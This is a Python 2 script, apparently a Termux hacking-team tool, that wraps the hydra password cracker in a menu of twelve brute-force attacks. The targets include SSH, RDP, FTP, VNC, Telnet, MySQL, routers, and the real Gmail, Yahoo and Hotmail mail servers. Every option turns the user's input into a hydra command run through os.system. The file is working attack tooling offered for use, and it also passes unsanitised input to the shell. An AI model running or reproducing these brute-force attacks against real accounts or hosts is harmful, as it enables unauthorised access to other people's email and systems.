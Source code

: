 # Hydra-kara
Termux
#!/usr/bin/python
"""
This program is just a small program to shorten brute force sessions on hydra :)
But to be more satisfying results of the brute force. You better interact directly with hydra,
without having to use this black hydra console first: ').
If you find any errors in running our program. Can chat via facebook :).
Hydra is needed for the process of this program :).
"""
import sys, os, time

# Restart ####################
def restart_program():
   python = sys.executable
   os.execl(python, python, * sys.argv)
   curdir = os.getcwd()
##############################

os.system("clear")
print "___  _    ____ ____ _  _    _  _ _   _ ___  ____ ____"
print "|__] |    |__| |    |_/     |__|  \_/  |  \ |__/ |__|"
print "|__] |___ |  | |___ | \_    |  |   |   |__/ |  \ |  |"
print "-----------------------------------------------------"
print "[]xxxxx[]::::::::::::::::::::> 24-07-2017 (7:53)"
print " [*] Author: DedSecTL  ---  [*] Version 1.0"
print "c=={:::::::::::::::> Black Hydra Console"
print " [*] My FB : https://m.facebook.com/100004136748473"
print "(}xxx{):::::::::> AndroSec1337 Cyber Team"
print
print "              ===|[ Brute Force ]|==="
print
print "  [01] Cisco Brute Force         "
print "  [02] VNC Brute Force           "
print "  [03] FTP Brute Force           "
print "  [04] Gmail Brute Force         "
print "  [05] SSH Brute Force           "
print "  [06] TeamSpeak Brute Force     "
print "  [07] Telnet Brute Force        "
print "  [08] Yahoo Mail Brute Force    "
print "  [09] Hotmail Brute Force       "
print "  [10] Router Speedy Brute Force "
print "  [11] RDP Brute Force           "
print "  [12] MySQL Brute Force         "
print
print " [00] Exit"
print
bhydra = raw_input("[*] B-Hydra > ")

if bhydra == '01' or bhydra == '1':
  print
  print "          +---------------------------+"
  print "          |     Cisco Brute Force     |"
  print "          +---------------------------+"
  print
  print
  iphost = raw_input("[*] IP/Hostname : ")
  word = raw_input("[*] Wordlist : ")
  os.system("hydra -P %s %s cisco" % (word, iphost))
  sys.exit()
  
elif bhydra == '02' or bhydra == '2':
  print
  print "          +---------------------------+"
  print "          |      VNC Brute Force      |"
  print "          +---------------------------+"
  print
  print
  word = raw_input("[*] Wordlist : ")
  iphost = raw_input("[*] IP/Hostname : ")
  os.system("hydra -P %s -e n -t 1 %s vnc -V" % (word, iphost))
  iphost = raw_input("[*] IP/Hostname : ")
  
elif bhydra == '03' or bhydra == '3':
  print
  print "          +------------------------------+"
  print "          |        FTP Brute Force       |"
  print "          +------------------------------+"
  print
  print
  user = raw_input("[*] User : ")
  iphost = raw_input("[*] IP/Hostname : ")
  word = raw_input("[*] Wordlist : ")
  os.system("hydra -l %s -P %s %s ftp" % (user, word, iphost))
  sys.exit()
  
elif bhydra == '04' or bhydra == '4':
  print
  print "          +------------------------------+"
  print "          |       Gmail Brute Force      |"
  print "          +------------------------------+"
  print
  print
  email = raw_input("[*] Email : ")
  word = raw_input("[*] Wordlist : ")
  os.system("hydra -l %s -P %s -s 465 smtp.gmail.com smtp" % (email, word))
  sys.exit()
  
elif bhydra == '05' or bhydra == '5':
   print
   print "         +--------------------------------+"
   print "         |        SSH Brute Force         |"
   print "         +--------------------------------+"
   print
   print
   user = raw_input("[*] User : ")
   word = raw_input("[*] Wordlist : ")
   iphost = raw_input("[*] IP/Hostname : ")
   os.system("hydra -l %s -P %s %s ssh" % (user, word, iphost))
   sys.exit()
   
elif bhydra == '06' or bhydra == '6':
	print
	print "        +-------------------------+"
	print "        |  TeamSpeak Brute Force  |"
	print "        +-------------------------+"
	print
	print
	user = raw_input("[*] User : ")
	word = raw_input("[*] Wordlist : ")
	iphost = raw_input("[*] IP/Hostname : ")
	os.system("hydra -l %s -P %s -s 8676 %s teamspeak" % (user, word, iphost))
	sys.exit()

elif bhydra == '07' or bhydra == '7':
	print
	print "        +-------------------------+"
	print "        |   Telnet Brute Force    |"
	print "        +-------------------------+"
	print
	print
	user = raw_input("[*] User : ")
	word = raw_input("[*] Wordlist : ")
	iphost = raw_input("[*] IP/Hostname : ")
	os.system("hydra -l %s -P %s %s telnet" % (user, word, iphost))
	sys.exit()
	
elif bhydra == '08' or bhydra == '8':
  print
  print "          +---------------------------+"
  print "          |     Yahoo Brute Force     |"
  print "          +---------------------------+"
  print
  print
  email = raw_input("[*] Email : ")
  word = raw_input("[*] Wordlist : ")
  os.system("hydra -l %s -P %s -s 587 smtp.mail.yahoo.com smtp" % (email, word))
  sys.exit()
  
elif bhydra == '09' or bhydra == '9':
  print
  print "          +----------------------------+"
  print "          |    Hotmail Brute Force     |"
  print "          +----------------------------+"
  print
  print
  email = raw_input("[*] Email : ")
  word = raw_input("[*] Wordlist : ")
  os.system("hydra -l %s -P %s -s 587 smtp.live.com smtp" % (email, word))
  sys.exit()
  
elif bhydra == '10':
	print
	print "        +-----------------------------+"
	print "        |  Router Speedy Brute Force  |"
	print "        +-----------------------------+"
	print
	print
	user = raw_input("[*] User : ")
	word = raw_input("[*] Wordlist : ")
	iphost = raw_input("[*] IP/Hostname : ")
	os.system("hydra -m / -l %s -P %s %s http-get" % (user, word, iphost))
	sys.exit()
	
elif bhydra == '11':
	print
	print "        +----------------------------+"
	print "        |      RDP Brute Force       |"
	print "        +----------------------------+"
	print
	print
	user = raw_input("[*] User : ")
	word = raw_input("[*] Wordlist : ")
	iphost = raw_input("[*] IP/Hostname : ")
	os.system("hydra -t 1 -V -f -l %s -P %s %s rdp" % (user, word, iphost))
	sys.exit()
	
elif bhydra == '12':
	print
	print "        +-----------------------------+"
	print "        |       MySQL Brute Force     |"
	print "        +-----------------------------+"
	print
	print
	user = raw_input("[*] User : ")
	word = raw_input("[*] Wordlist : ")
	os.system("hydra -t 5 -V -f -l %s -e ns -P %s localhost mysql" % (user, word))
	
elif bhydra == '00' or bhydra == '0':
	print "\n[!] Exit the Program..."
	sys.exit()
	
else:
	print "\n[!] ERROR : Wrong Input"
	time.sleep(1)
	restart_program()
